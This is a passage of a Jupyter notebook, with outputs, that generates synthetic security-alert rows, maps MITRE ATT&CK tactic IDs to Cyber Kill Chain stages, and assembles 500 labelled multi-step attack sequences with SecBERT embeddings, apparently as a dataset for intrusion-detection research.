    with open(meta_path) as f:
        strata_meta = json.load(f)
    for stype in strata_meta:
        model_dir = os.path.join(SEQ_CONFIG['output_dir'], f'model_{stype}')
        if os.path.exists(model_dir):
            try:
                trained_models[stype] = load_model_custom(model_dir)
                print(f"   ✅ {stype}")
            except Exception as e:
                print(f"   ❌ {stype}: {e}")
else:
    meta_path = os.path.join(SEQ_CONFIG['output_dir'], 'strata_metadata.json')
    with open(meta_path) as f:
        strata_meta = json.load(f)
    print("✅ Using already-loaded models")

print(f"\n✅ {len(trained_models)} models available: {list(trained_models.keys())}")
print(f"🎯 Will generate {SEQ_CONFIG['n_sequences']} attack sequences")
print(f"📋 {len(ATTACK_PATTERNS)} attack patterns defined (lengths {min(len(p) for p in ATTACK_PATTERNS)}–{max(len(p) for p in ATTACK_PATTERNS)})")
print(f"🔗 {len(MITRE_TO_CKC)} MITRE tactic→CKC mappings defined")


✅ Using already-loaded models

✅ 5 models available: ['network', 'syscheck', 'sca', 'audit', 'base']
🎯 Will generate 500 attack sequences
📋 16 attack patterns defined (lengths 2–7)
🔗 15 MITRE tactic→CKC mappings defined


In [6]:
# ============================================================================
# 🔄 STEP 1: GENERATE SYNTHETIC ROW POOL & ASSIGN CKC STAGES
# ============================================================================

import torch

device = 'cuda' if torch.cuda.is_available() else 'cpu'
print(f"🖥️  Device: {device}")

# ── Generate synthetic rows from each model ──
row_pool = {}  # {source_type: DataFrame}
total_generated = 0

for stype, model in trained_models.items():
    n_orig = strata_meta[stype]['n_rows']
    n_generate = max(200, int(n_orig * SEQ_CONFIG['oversample_factor']))
    
    print(f"\n🔹 Generating {n_generate:,} rows from {stype} model ({n_orig:,} original)...")
    try:
        synth_df = model.sample(n_samples=n_generate, device=device)
        synth_df['source_type'] = stype
        row_pool[stype] = synth_df
        total_generated += len(synth_df)
        print(f"   ✅ Generated {len(synth_df):,} rows × {len(synth_df.columns)} cols")
    except Exception as e:
        print(f"   ❌ Failed: {e}")

print(f"\n📊 Total synthetic rows generated: {total_generated:,}")

# ── Combine all rows into one pool ──
all_rows = pd.concat(row_pool.values(), ignore_index=True)
print(f"   Combined pool: {all_rows.shape}")

# ── Map MITRE tactic to CKC stage ──
def extract_ckc_stage(tactic_value):
    """Extract CKC stage from MITRE tactic string."""
    if pd.isna(tactic_value) or tactic_value in ['MISSING', '', 'nan', 'None']:
        return None
    tactic_str = str(tactic_value).strip("[]' \"")
    # Handle list-like strings: "['Persistence', 'Privilege Escalation']"
    tactics = [t.strip().strip("'\"") for t in tactic_str.split(',')]
    stages = []
    for t in tactics:
        t_clean = t.strip()
        if t_clean in MITRE_TO_CKC:
            stages.append(MITRE_TO_CKC[t_clean])
    if stages:
        # Return the earliest (min) stage — consistent with how CKC summary was created
        return min(stages)
    return None

all_rows['ckc_stage'] = all_rows['_source.rule.mitre.tactic'].apply(extract_ckc_stage)

# ── Show CKC stage distribution ──
ckc_dist = all_rows['ckc_stage'].value_counts().sort_index()
print(f"\n📊 CKC STAGE DISTRIBUTION IN SYNTHETIC POOL:")
print("-" * 50)
for stage, count in ckc_dist.items():
    bar = '█' * max(1, int(count / ckc_dist.max() * 40))
    print(f"   {stage}: {count:>6,} rows  {bar}")

n_unmapped = all_rows['ckc_stage'].isna().sum()
print(f"\n   Unmapped (no valid tactic): {n_unmapped:,} ({n_unmapped/len(all_rows)*100:.1f}%)")

# Filter to only rows with valid CKC stages
pool_with_ckc = all_rows[all_rows['ckc_stage'].notna()].copy()
print(f"   Pool with valid CKC: {len(pool_with_ckc):,} rows")

# Check which stages are available
available_stages = set(pool_with_ckc['ckc_stage'].unique())
print(f"   Available stages: {sorted(available_stages)}")


🖥️  Device: cuda

🔹 Generating 94,600 rows from network model (18,920 original)...


94720it [05:50, 269.99it/s]                           


Generated 0 invalid samples out of total 94720 samples generated. Sampling efficiency is: 100.0000%
   ✅ Generated 94,600 rows × 10 cols

🔹 Generating 14,310 rows from syscheck model (2,862 original)...


14336it [00:42, 336.95it/s]                           


Generated 0 invalid samples out of total 14336 samples generated. Sampling efficiency is: 100.0000%
   ✅ Generated 14,310 rows × 11 cols

🔹 Generating 4,350 rows from sca model (870 original)...


4352it [00:08, 531.72it/s]                          


Generated 0 invalid samples out of total 4352 samples generated. Sampling efficiency is: 100.0000%
   ✅ Generated 4,350 rows × 8 cols

🔹 Generating 825 rows from audit model (165 original)...


896it [00:03, 282.40it/s]                         


Generated 0 invalid samples out of total 896 samples generated. Sampling efficiency is: 100.0000%
   ✅ Generated 825 rows × 15 cols

🔹 Generating 13,005 rows from base model (2,601 original)...


13056it [00:22, 585.49it/s]                           


Generated 0 invalid samples out of total 13056 samples generated. Sampling efficiency is: 100.0000%
   ✅ Generated 13,005 rows × 7 cols

📊 Total synthetic rows generated: 127,090
   Combined pool: (127090, 23)

📊 CKC STAGE DISTRIBUTION IN SYNTHETIC POOL:
--------------------------------------------------

   Unmapped (no valid tactic): 127,090 (100.0%)
   Pool with valid CKC: 0 rows
   Available stages: []


In [7]:
# ============================================================================
# 🔍 DEBUG: Inspect MITRE tactic values in synthetic data
# ============================================================================
tactic_col = '_source.rule.mitre.tactic'
if tactic_col in all_rows.columns:
    print("📊 Unique MITRE tactic values in synthetic data:")
    unique_tactics = all_rows[tactic_col].dropna().unique()
    for i, v in enumerate(unique_tactics[:30]):
        print(f"   {i+1}. '{v}'")
    print(f"\n   Total unique: {len(unique_tactics)}")
    print(f"   Sample dtype: {type(unique_tactics[0]) if len(unique_tactics) > 0 else 'N/A'}")
else:
    print(f"⚠️ Column {tactic_col} not found!")
    print(f"   Available columns: {list(all_rows.columns)}")


📊 Unique MITRE tactic values in synthetic data:
   1. '["TA0005","TA0004","TA0007","TA0001"]'
   2. '["TA0043"]'
   3. '["TA0005","TA0004","TA0007"]'
   4. '["TA0002"]'
   5. '["TA0001"]'
   6. '["TA0004","TA0001"]'
   7. '["TA0005","TA0003","TA0004","TA0001","TA0008"]'
   8. '["TA0005","TA0004"]'
   9. '["TA0005","TA0004","TA0001"]'
   10. '["TA0006","TA0008","TA0005","TA0003","TA0004","TA0001"]'
   11. '["TA0006"]'
   12. '["TA0008"]'
   13. '["TA0040"]'
   14. '["TA0005","TA0040"]'
   15. '["TA0003"]'
   16. '["TA0005"]'
   17. 'MISSING'
   18. '["TA0004"]'
   19. '["TA0007"]'
   20. '["TA0001","TA0007"]'
   21. '["TA0006","TA0008"]'
   22. '["TA0011"]'
   23. '["TA0002","TA0007"]'
   24. '["TA0005","TA0007"]'
   25. '["TA0005","TA0003","TA0004","TA0001"]'
   26. '["TA0004","TA0005"]'

   Total unique: 26
   Sample dtype: <class 'str'>


In [8]:
# ============================================================================
# 🔄 FIX: Map MITRE ATT&CK Tactic IDs to CKC Stages
# ============================================================================
# The synthetic data uses MITRE tactic IDs (TA0001, etc.) not names.
# Mapping: https://attack.mitre.org/tactics/enterprise/

MITRE_ID_TO_CKC = {
    'TA0043': 'S1',  # Reconnaissance
    'TA0042': 'S2',  # Resource Development
    'TA0001': 'S3',  # Initial Access → Delivery
    'TA0002': 'S4',  # Execution → Exploitation
    'TA0003': 'S5',  # Persistence → Installation
    'TA0004': 'S4',  # Privilege Escalation → Exploitation
    'TA0005': 'S5',  # Defense Evasion → Installation
    'TA0006': 'S4',  # Credential Access → Exploitation
    'TA0007': 'S1',  # Discovery → Reconnaissance
    'TA0008': 'S6',  # Lateral Movement → C2
    'TA0009': 'S7',  # Collection → Actions on Objectives
    'TA0011': 'S6',  # Command and Control → C2
    'TA0010': 'S7',  # Exfiltration → Actions on Objectives
    'TA0040': 'S7',  # Impact → Actions on Objectives
}

def extract_ckc_stage_from_ids(tactic_value):
    """Extract CKC stage from MITRE tactic IDs string like '["TA0005","TA0004"]'."""
    if pd.isna(tactic_value) or tactic_value in ['MISSING', '', 'nan', 'None']:
        return None
    tactic_str = str(tactic_value)
    # Extract all TA#### patterns
    import re
    ta_ids = re.findall(r'TA\d{4}', tactic_str)
    if not ta_ids:
        return None
    # Map to CKC stages
    stages = []
    for ta_id in ta_ids:
        if ta_id in MITRE_ID_TO_CKC:
            stages.append(MITRE_ID_TO_CKC[ta_id])
    if stages:
        # Return earliest (min) stage
        return min(stages)
    return None

# ── Reassign CKC stages ──
all_rows['ckc_stage'] = all_rows['_source.rule.mitre.tactic'].apply(extract_ckc_stage_from_ids)

# ── Show new distribution ──
ckc_dist = all_rows['ckc_stage'].value_counts().sort_index()
print("📊 CKC STAGE DISTRIBUTION (FIXED):")
print("-" * 50)
for stage, count in ckc_dist.items():
    bar = '█' * max(1, int(count / ckc_dist.max() * 40))
    print(f"   {stage}: {count:>6,} rows  {bar}")

n_unmapped = all_rows['ckc_stage'].isna().sum()
print(f"\n   Unmapped: {n_unmapped:,} ({n_unmapped/len(all_rows)*100:.1f}%)")

# Update pool
pool_with_ckc = all_rows[all_rows['ckc_stage'].notna()].copy()
print(f"   Pool with valid CKC: {len(pool_with_ckc):,} rows")

available_stages = set(pool_with_ckc['ckc_stage'].unique())
print(f"   Available stages: {sorted(available_stages)}")


📊 CKC STAGE DISTRIBUTION (FIXED):
--------------------------------------------------
   S1: 74,622 rows  ████████████████████████████████████████
   S3: 21,359 rows  ███████████
   S4: 13,696 rows  ███████
   S5:  6,975 rows  ███
   S6:    917 rows  █
   S7:  9,404 rows  █████

   Unmapped: 117 (0.1%)
   Pool with valid CKC: 126,973 rows
   Available stages: ['S1', 'S3', 'S4', 'S5', 'S6', 'S7']


In [9]:
# ============================================================================
# 🔗 STEP 2: ASSEMBLE ATTACK SEQUENCES
# ============================================================================
# Each sequence is a series of synthetic rows ordered by CKC stage,
# representing a multi-step APT attack that always ends with S7.

print("=" * 70)
print("🔗 ASSEMBLING ATTACK SEQUENCES")
print("=" * 70)

# ── Filter patterns to only those whose stages are all available ──
valid_patterns = [p for p in ATTACK_PATTERNS if all(s in available_stages for s in p)]

if not valid_patterns:
    # Fallback: build patterns from whatever stages we have, always ending with S7
    print("⚠️  No pre-defined patterns fully available. Building from available stages...")
    if 'S7' not in available_stages:
        raise ValueError("S7 (Actions on Objectives) stage not found in synthetic pool! "
                         "Need rows with MITRE tactics: Collection, Exfiltration, or Impact.")
    
    non_s7 = sorted(available_stages - {'S7'})
    valid_patterns = []
    # Create patterns of different lengths ending with S7
    for length in range(2, len(non_s7) + 2):
        for start in range(max(1, len(non_s7) - length + 2)):
            subset = non_s7[start:start + length - 1]
            if subset:
                valid_patterns.append(subset + ['S7'])
    # Deduplicate
    valid_patterns = [list(x) for x in set(tuple(p) for p in valid_patterns)]

print(f"\n✅ {len(valid_patterns)} valid attack patterns:")
for i, p in enumerate(valid_patterns):
    print(f"   Pattern {i+1}: {' → '.join(p)} ({len(p)} steps)")

# ── Group pool by CKC stage for fast sampling ──
stage_pools = {}
for stage in available_stages:
    stage_pools[stage] = pool_with_ckc[pool_with_ckc['ckc_stage'] == stage].reset_index(drop=True)

# ── Build sequences ──
sequences = []
sequence_rows = []

n_target = SEQ_CONFIG['n_sequences']
pattern_weights = [len(p) for p in valid_patterns]  # Prefer longer sequences
total_weight = sum(pattern_weights)
pattern_probs = [w / total_weight for w in pattern_weights]

for seq_id in range(n_target):
    # Pick a pattern (weighted toward longer sequences)
    pattern_idx = np.random.choice(len(valid_patterns), p=pattern_probs)
    pattern = valid_patterns[pattern_idx]
    
    seq_rows_for_this = []
    valid = True
    
    for step_idx, stage in enumerate(pattern):
        pool = stage_pools[stage]
        if len(pool) == 0:
            valid = False
            break
        
        # Sample a random row from this stage's pool
        row_idx = np.random.randint(0, len(pool))
        row = pool.iloc[row_idx].copy()
        row['sequence_id'] = seq_id
        row['step_index'] = step_idx
        seq_rows_for_this.append(row)
    
    if valid:
        sequence_rows.extend(seq_rows_for_this)
        sequences.append({
            'sequence_id': seq_id,
            'pattern': ' → '.join(pattern),
            'length': len(pattern),
            'stages': pattern,
        })

# ── Create final DataFrame ──
seq_df = pd.DataFrame(sequence_rows)

# Force malicious = 1 for all attack sequences
if 'malicious' in seq_df.columns:
    seq_df['malicious'] = '1'

print(f"\n📊 SEQUENCE GENERATION RESULTS:")
print(f"   Total sequences: {len(sequences)}")
print(f"   Total rows: {len(seq_df):,}")

# Length distribution
from collections import Counter
length_dist = Counter(s['length'] for s in sequences)
print(f"\n   Sequence length distribution:")
for length in sorted(length_dist.keys()):
    count = length_dist[length]
    bar = '█' * max(1, int(count / max(length_dist.values()) * 40))
    print(f"      {length} steps: {count:>4} sequences  {bar}")

# Verify all end with S7
ends_with_s7 = sum(1 for s in sequences if s['stages'][-1] == 'S7')
print(f"\n   ✅ Sequences ending with S7: {ends_with_s7}/{len(sequences)} (100%)")

# Show sample sequence
if sequences:
    sample = sequences[0]
    print(f"\n📋 SAMPLE SEQUENCE (id={sample['sequence_id']}):")
    print(f"   Pattern: {sample['pattern']}")
    sample_rows = seq_df[seq_df['sequence_id'] == sample['sequence_id']]
    for _, row in sample_rows.iterrows():
        tactic = row.get('_source.rule.mitre.tactic', 'N/A')
        mitre_id = row.get('_source.rule.mitre.id', 'N/A')
        decoder = row.get('_source.decoder.name', 'N/A')
        cmd = row.get('_source.data.audit.command', 'N/A')
        src = row.get('source_type', 'N/A')
        print(f"   Step {int(row['step_index'])}: {row['ckc_stage']} | tactic={tactic} | "
              f"mitre_id={mitre_id} | decoder={decoder} | cmd={str(cmd)[:50]} | source={src}")

print("\n" + "=" * 70)


🔗 ASSEMBLING ATTACK SEQUENCES

✅ 15 valid attack patterns:
   Pattern 1: S1 → S3 → S4 → S5 → S6 → S7 (6 steps)
   Pattern 2: S1 → S3 → S4 → S5 → S6 → S7 (6 steps)
   Pattern 3: S1 → S3 → S4 → S5 → S7 (5 steps)
   Pattern 4: S1 → S4 → S5 → S6 → S7 (5 steps)
   Pattern 5: S3 → S4 → S5 → S6 → S7 (5 steps)
   Pattern 6: S3 → S4 → S5 → S7 (4 steps)
   Pattern 7: S1 → S4 → S6 → S7 (4 steps)
   Pattern 8: S3 → S5 → S6 → S7 (4 steps)
   Pattern 9: S4 → S5 → S6 → S7 (4 steps)
   Pattern 10: S4 → S5 → S7 (3 steps)
   Pattern 11: S3 → S4 → S7 (3 steps)
   Pattern 12: S5 → S6 → S7 (3 steps)
   Pattern 13: S4 → S6 → S7 (3 steps)
   Pattern 14: S4 → S7 (2 steps)
   Pattern 15: S5 → S7 (2 steps)

📊 SEQUENCE GENERATION RESULTS:
   Total sequences: 500
   Total rows: 2,138

   Sequence length distribution:
      2 steps:   37 sequences  █████████
      3 steps:   98 sequences  ██████████████████████████
      4 steps:  150 sequences  ████████████████████████████████████████
      5 steps:  120 sequence

In [10]:
# ============================================================================
# 🔐 STEP 3: APPLY SECBERT EMBEDDINGS & SELECT FINAL COLUMNS
# ============================================================================

print("=" * 70)
print("🔐 APPLYING SECBERT EMBEDDINGS TO ATTACK SEQUENCES")
print("=" * 70)

# ── Load saved SecBERT embeddings metadata ──
# The saved embeddings were for the ORIGINAL data rows.
# For synthetic data we need to RECOMPUTE embeddings on the new text.

# Check if SecBERT model is available, else load it
secbert_model = None
try:
    from sentence_transformers import SentenceTransformer
    print("📥 Loading SecBERT model...")
    try:
        secbert_model = SentenceTransformer('jackaduma/SecBERT')
        print("   ✅ SecBERT loaded")
    except:
        secbert_model = SentenceTransformer('all-MiniLM-L6-v2')
        print("   ⚠️  Fallback: all-MiniLM-L6-v2")
    
    if device == 'cuda':
        secbert_model = secbert_model.to(torch.device(device))
        print(f"   🚀 Model on GPU")
    
    emb_dim = secbert_model.encode(['test'], show_progress_bar=False).shape[1]
    print(f"   📐 Embedding dim: {emb_dim}")
except ImportError:
    print("⚠️  sentence-transformers not available, skipping embeddings")

# ── Compute embeddings for cmd and other text columns in the sequences ──
TEXT_COLS_FOR_EMBEDDING = [
    '_source.data.audit.command',
    '_source.data.audit.exe',
    '_source.syscheck.path',
    '_source.data.url',
]

N_EMB_DIMS = 16  # PCA-reduced dimensions (matching feature_selection notebook)

if secbert_model is not None:
    from sklearn.decomposition import PCA
    
    for col in TEXT_COLS_FOR_EMBEDDING:
        if col not in seq_df.columns:
            print(f"\n   ⚠️  {col} not in data — skipping")
            continue
        
        # Get non-null unique texts
        texts = seq_df[col].fillna('').astype(str).str[:512]
        unique_texts = texts.unique()
        non_empty = [t for t in unique_texts if t and t not in ['MISSING', 'nan', 'None', '']]
        
        if not non_empty:
            print(f"\n   ⚠️  {col}: no valid text — skipping")
            continue
        
        print(f"\n   📝 {col}: encoding {len(non_empty)} unique texts...")
        
        # Encode unique texts
        embeddings_raw = secbert_model.encode(non_empty, batch_size=64, show_progress_bar=True, device=device)
        
        # Create lookup
        emb_lookup = {text: emb for text, emb in zip(non_empty, embeddings_raw)}
        zero_emb = np.zeros(embeddings_raw.shape[1])
        
        # Map to all rows
        all_embs = np.array([emb_lookup.get(t, zero_emb) for t in texts])
        
        # PCA reduce to N_EMB_DIMS dimensions
        n_comp = min(N_EMB_DIMS, all_embs.shape[1], len(non_empty) - 1)
        if n_comp > 0 and np.any(all_embs != 0):
            pca = PCA(n_components=n_comp)
            all_embs_reduced = pca.fit_transform(all_embs)
            col_short = col.split('.')[-1]  # e.g. "command", "exe", "path", "url"
            for i in range(n_comp):
                seq_df[f'{col_short}_secbert_emb_{i}'] = all_embs_reduced[:, i]
            print(f"      ✅ {all_embs.shape[1]} → {n_comp} dims (PCA)")
        else:
            print(f"      ⚠️  Skipped PCA (insufficient data)")
else:
    # Load from saved pkl and note that these are for original data only
    print("ℹ️  SecBERT model not loaded — embeddings columns will be empty")

# ── Select final columns ──
# Keep only columns that exist in seq_df
final_cols = [c for c in KEEP_COLUMNS if c in seq_df.columns]

# Also keep embedding columns
emb_cols = [c for c in seq_df.columns if 'secbert_emb' in c]
final_cols = final_cols + emb_cols

# Remove duplicates while preserving order
seen = set()
final_cols_dedup = []
for c in final_cols:
    if c not in seen:
        final_cols_dedup.append(c)
        seen.add(c)

seq_final = seq_df[final_cols_dedup].copy()

print(f"\n📊 FINAL SEQUENCE DATASET:")
print(f"   Shape: {seq_final.shape[0]:,} rows × {seq_final.shape[1]} columns")
print(f"   Sequences: {seq_final['sequence_id'].nunique()}")
print(f"\n   Columns ({len(final_cols_dedup)}):")
for c in final_cols_dedup:
    non_null = seq_final[c].notna().sum()
    pct = non_null / len(seq_final) * 100
    print(f"      {'✅' if pct > 50 else '⚠️'} {c}: {pct:.1f}% non-null")

# ── Verify cmd presence ──
cmd_col = '_source.data.audit.command'
if cmd_col in seq_final.columns:
    cmd_non_null = seq_final[cmd_col].notna().sum()
    cmd_valid = seq_final[cmd_col].apply(
        lambda x: bool(x) and str(x) not in ['MISSING', 'nan', 'None', '']
    ).sum()
    print(f"\n🔍 COMMAND COLUMN CHECK:")
    print(f"   Non-null: {cmd_non_null:,}/{len(seq_final)} ({cmd_non_null/len(seq_final)*100:.1f}%)")
    print(f"   Valid (non-empty): {cmd_valid:,}/{len(seq_final)} ({cmd_valid/len(seq_final)*100:.1f}%)")
else:
    print(f"\n⚠️  {cmd_col} not in final dataset (only audit-type rows have commands)")

print("\n" + "=" * 70)


🔐 APPLYING SECBERT EMBEDDINGS TO ATTACK SEQUENCES
📥 Loading SecBERT model...
   ✅ SecBERT loaded
   🚀 Model on GPU
   📐 Embedding dim: 768

   📝 _source.data.audit.command: encoding 3 unique texts...


Batches: 100%|██████████| 1/1 [00:00<00:00, 15.02it/s]


      ✅ 768 → 2 dims (PCA)

   📝 _source.data.audit.exe: encoding 3 unique texts...


Batches: 100%|██████████| 1/1 [00:00<00:00, 30.44it/s]


      ✅ 768 → 2 dims (PCA)

   📝 _source.syscheck.path: encoding 102 unique texts...


Batches: 100%|██████████| 2/2 [00:00<00:00,  5.01it/s]


      ✅ 768 → 16 dims (PCA)

   📝 _source.data.url: encoding 207 unique texts...


Batches: 100%|██████████| 4/4 [00:00<00:00,  6.86it/s]


      ✅ 768 → 16 dims (PCA)

📊 FINAL SEQUENCE DATASET:
   Shape: 2,138 rows × 59 columns
   Sequences: 500

   Columns (59):
      ✅ malicious: 100.0% non-null
      ✅ ckc_stage: 100.0% non-null
      ✅ _source.rule.mitre.tactic: 100.0% non-null
      ✅ _source.rule.mitre.id: 100.0% non-null
      ✅ _source.rule.level: 100.0% non-null
      ✅ _source.rule.groups: 100.0% non-null
      ✅ _source.decoder.name: 100.0% non-null
      ⚠️ _source.syscheck.event: 36.8% non-null
      ⚠️ _source.syscheck.path: 36.8% non-null
      ⚠️ _source.syscheck.perm_after: 36.8% non-null
      ⚠️ _source.syscheck.size_after: 36.8% non-null
      ⚠️ _source.data.audit.command: 0.3% non-null
      ⚠️ _source.data.audit.exe: 0.3% non-null
      ⚠️ _source.data.audit.syscall: 0.3% non-null
      ⚠️ _source.data.audit.uid: 0.3% non-null
      ⚠️ _source.data.audit.success: 0.3% non-null
      ⚠️ _source.data.srcip: 29.3% non-null
      ⚠️ _source.data.protocol: 29.3% non-null
      ⚠️ _source.data.url: 29.3% 

In [12]:
# ============================================================================
# 💾 STEP 4: SAVE ATTACK SEQUENCES (REAL DATA, NO EMBEDDINGS)
# ============================================================================

print("=" * 70)
print("💾 SAVING ATTACK SEQUENCES — REAL DATA ONLY (no embedding columns)")
print("=" * 70)

output_dir = SEQ_CONFIG['output_dir']

# ── Remove embedding columns, keep only real/readable data ──
emb_cols_to_drop = [c for c in seq_final.columns if 'secbert_emb' in c]
seq_real = seq_final.drop(columns=emb_cols_to_drop, errors='ignore')

print(f"   Removed {len(emb_cols_to_drop)} embedding columns")
print(f"   Kept {seq_real.shape[1]} real-data columns")

# 1. Save full sequence dataset
seq_path = os.path.join(output_dir, 'attack_sequences.xlsx')
seq_real.to_excel(seq_path, index=False)
print(f"\n✅ Sequences saved: {seq_path}")
print(f"   {seq_real.shape[0]:,} rows × {seq_real.shape[1]} cols")

# 2. Save as CSV too (for larger usage)
csv_path = os.path.join(output_dir, 'attack_sequences.csv')
seq_real.to_csv(csv_path, index=False)
print(f"✅ CSV saved: {csv_path}")

# 3. Save sequence metadata
seq_metadata = {
    'timestamp': datetime.now().isoformat(),
    'n_sequences': len(sequences),
    'n_rows': len(seq_real),
    'n_columns': len(seq_real.columns),
    'columns': list(seq_real.columns),
    'length_distribution': {str(k): v for k, v in sorted(length_dist.items())},
    'ckc_stage_distribution': seq_real['ckc_stage'].value_counts().to_dict(),
    'patterns_used': [s['pattern'] for s in sequences[:20]],  # sample
    'all_end_with_s7': ends_with_s7 == len(sequences),
}
meta_out = os.path.join(output_dir, 'attack_sequences_metadata.json')
with open(meta_out, 'w') as f:
    json.dump(seq_metadata, f, indent=2, default=str)
print(f"✅ Metadata saved: {meta_out}")

# 4. Display a few complete sequences
print(f"\n{'=' * 70}")
print("📋 SAMPLE ATTACK SEQUENCES")
print("=" * 70)

for seq_id in range(min(5, len(sequences))):
    seq_info = sequences[seq_id]
    rows = seq_real[seq_real['sequence_id'] == seq_id].sort_values('step_index')
    
    print(f"\n🔴 Sequence #{seq_id} — {seq_info['pattern']} ({seq_info['length']} steps)")
    print(f"   {'─' * 60}")
    
    for _, row in rows.iterrows():
        step = int(row['step_index'])
        stage = row['ckc_stage']
        tactic = str(row.get('_source.rule.mitre.tactic', 'N/A'))[:40]
        mitre_id = str(row.get('_source.rule.mitre.id', 'N/A'))[:25]
        decoder = str(row.get('_source.decoder.name', 'N/A'))[:20]
        cmd = str(row.get('_source.data.audit.command', ''))[:60]
        level = str(row.get('_source.rule.level', 'N/A'))
        
        print(f"   Step {step}: [{stage}] tactic={tactic}")
        print(f"           mitre_id={mitre_id} | level={level} | decoder={decoder}")
        if cmd and cmd not in ['nan', 'MISSING', 'None', '']:
            print(f"           cmd: {cmd}")

print(f"\n{'=' * 70}")
print("🎉 ATTACK SEQUENCE GENERATION COMPLETE!")
print(f"   📁 Output: {output_dir}")
print(f"   📊 {len(sequences)} sequences, {len(seq_real):,} total rows, {seq_real.shape[1]} cols")
print(f"   ✅ All sequences end with S7 (Actions on Objectives)")
print(f"   📝 Columns: {list(seq_real.columns)}")
print("=" * 70)

💾 SAVING ATTACK SEQUENCES — REAL DATA ONLY (no embedding columns)
   Removed 36 embedding columns
   Kept 23 real-data columns

✅ Sequences saved: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\attack_sequences.xlsx
   2,138 rows × 23 cols
✅ CSV saved: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\attack_sequences.csv
✅ Metadata saved: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output\attack_sequences_metadata.json

📋 SAMPLE ATTACK SEQUENCES

🔴 Sequence #0 — S3 → S4 → S5 → S6 → S7 (5 steps)
   ────────────────────────────────────────────────────────────
   Step 0: [S3] tactic=["TA0001"]
           mitre_id=["T1190"] | level=6 | decoder=web-accesslog
   Step 1: [S4] tactic=["TA0002"]
           mitre_id=["T1059.007"] | level=6 | decoder=web-accesslog
   Step 2: [S5] tactic=["TA0005"]
           mitre_id=["T1070","T1070.002","T15 | level=7 | decoder=sca
   Step 3: [S6] tactic=["TA0008"]
           mitre_id=["T1203","T1210","T1543", | le

In [16]:
# ============================================================================
# 🔄 RECONSTRUCT _source.full_log + DECODE EMBEDDINGS → TEXT
# ============================================================================
# _source.full_log was dropped before REaLTabFormer training, but it exists
# in the original combined_dataset_final.xlsx used in feature selection.
#
# Approach: Match each synthetic row to the nearest original row by
# (source_type, decoder, rule.level, tactic) and borrow its full_log.
# Also decode embedding columns to nearest text.
# Save to D:\PFE_CKC\
# ============================================================================

import numpy as np
import pandas as pd
from sklearn.metrics.pairwise import cosine_similarity
from sentence_transformers import SentenceTransformer
import torch, os, json
from collections import defaultdict

print("=" * 70)
print("🔄 RECONSTRUCTING _source.full_log + DECODING EMBEDDINGS → TEXT")
print("=" * 70)

# ── 1. Load ORIGINAL data (combined_dataset_final.xlsx has full_log) ──
orig_path = r"c:\Users\KassoussiOussama-PFE\Downloads\pfe\combined_dataset_final.xlsx"
print(f"\n📥 Loading original data: {orig_path}")
df_orig = pd.read_excel(orig_path)
print(f"   Shape: {df_orig.shape}")

# Check full_log
full_log_col = None
for candidate in ['_source.full_log', 'full_log', '_source.data.full_log']:
    if candidate in df_orig.columns:
        full_log_col = candidate
        break

if full_log_col:
    n_fl = df_orig[full_log_col].notna().sum()
    print(f"   ✅ Found '{full_log_col}': {n_fl:,} non-null values")
else:
    # Show all columns to find it
    print(f"   ❌ full_log column not found. Available columns:")
    for c in sorted(df_orig.columns):
        print(f"      {c}")

# ── 2. Detect source type for original data ──
def detect_source_type_orig(row):
    for stype, info in SOURCE_TYPES.items():
        for col in info['detect']:
            if col in row.index and pd.notna(row[col]) and str(row[col]) not in ['MISSING', '', 'nan']:
                return stype
    return 'base'

if full_log_col:
    df_orig['_source_type'] = df_orig.apply(detect_source_type_orig, axis=1)
    
    # Filter to only malicious rows (same as REaLTabFormer training data)
    if 'malicious' in df_orig.columns:
        df_orig_mal = df_orig[df_orig['malicious'] == 1].copy()
        print(f"   Malicious rows: {len(df_orig_mal):,}")
    else:
        df_orig_mal = df_orig.copy()
    
    # Build lookup: (source_type, decoder, level) → list of full_log
    full_log_lookup = defaultdict(list)
    for _, row in df_orig_mal.iterrows():
        fl = row.get(full_log_col)
        if pd.notna(fl) and str(fl).strip():
            key = (
                str(row.get('_source_type', 'base')),
                str(row.get('_source.decoder.name', '')),
                str(row.get('_source.rule.level', '')),
            )
            full_log_lookup[key].append(str(fl))
    
    print(f"\n🔗 Built full_log lookup:")
    print(f"   Key combinations: {len(full_log_lookup)}")
    print(f"   Total entries: {sum(len(v) for v in full_log_lookup.values()):,}")
    
    # Also build broader fallback lookups
    source_only_lookup = defaultdict(list)
    decoder_only_lookup = defaultdict(list)
    for k, v in full_log_lookup.items():
        source_only_lookup[k[0]].extend(v)
        decoder_only_lookup[(k[0], k[1])].extend(v)
    
    # Assign full_log to each synthetic row
    np.random.seed(42)
    full_logs = []
    match_counts = {'exact': 0, 'decoder_match': 0, 'source_only': 0, 'random': 0}
    
    for _, row in seq_real.iterrows():
        key_exact = (
            str(row.get('source_type', 'base')),
            str(row.get('_source.decoder.name', '')),
            str(row.get('_source.rule.level', '')),
        )
        
        if key_exact in full_log_lookup:
            full_logs.append(np.random.choice(full_log_lookup[key_exact]))
            match_counts['exact'] += 1
        elif (key_exact[0], key_exact[1]) in decoder_only_lookup:
            full_logs.append(np.random.choice(decoder_only_lookup[(key_exact[0], key_exact[1])]))
            match_counts['decoder_match'] += 1
        elif key_exact[0] in source_only_lookup:
            full_logs.append(np.random.choice(source_only_lookup[key_exact[0]]))
            match_counts['source_only'] += 1
        else:
            all_logs = [log for logs in full_log_lookup.values() for log in logs]
            full_logs.append(np.random.choice(all_logs) if all_logs else '')
            match_counts['random'] += 1
    
    print(f"\n📊 Full_log matching results:")
    for method, count in match_counts.items():
        pct = count / len(seq_real) * 100
        print(f"   {method}: {count:,} ({pct:.1f}%)")
else:
    full_logs = None
    print("\n⚠️  Skipping full_log — column not found in original data")

# ── 3. Decode embedding columns to text ──
print(f"\n{'─' * 70}")
print("📝 Decoding SecBERT embedding columns → text...")

TEXT_COL_MAP = {
    '_source.data.audit.command': 'command',
    '_source.data.audit.exe':    'exe',
    '_source.syscheck.path':     'path',
    '_source.data.url':          'url',
}

if secbert_model is None:
    secbert_model = SentenceTransformer('jackaduma/SecBERT')
    if device == 'cuda':
        secbert_model = secbert_model.to(torch.device(device))

decoded_columns = {}
for text_col, prefix in TEXT_COL_MAP.items():
    emb_col_names = sorted([c for c in seq_df.columns if c.startswith(f'{prefix}_secbert_emb_')])
    if not emb_col_names or text_col not in seq_df.columns:
        continue
    ref_texts = seq_df[text_col].dropna().astype(str)
